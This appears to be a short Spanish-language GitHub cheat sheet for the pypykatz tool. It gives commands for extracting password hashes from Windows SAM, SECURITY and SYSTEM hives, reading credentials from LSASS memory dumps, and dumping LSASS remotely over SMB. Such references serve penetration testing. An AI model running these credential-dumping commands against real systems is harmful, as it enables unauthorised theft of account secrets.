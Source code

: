 # pypykatz Cheat Sheet

#### Extraer Hashes de SAM & SYSTEM
```
pypykatz registry --sam <FILE-SAM> --security <FILE-SECURITY> <FILE-SYSTEM>
```

#### Extraer Hashes de SAM & SYSTEM y guardar los datos en un archivo en JSON
```
pypykatz registry --sam <FILE-SAM> --security <FILE-SECURITY> <FILE-SYSTEM> -o <OUTPUT> --json
```

#### Extraer credenciales desde un archivo de memoria
```
pypykatz lsa minidump <FILE-.dmp> -g -p wdigest
```

#### Dumperar LSASS remotamente
```
pypykatz live smb lsassdump <IP-TARGET>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)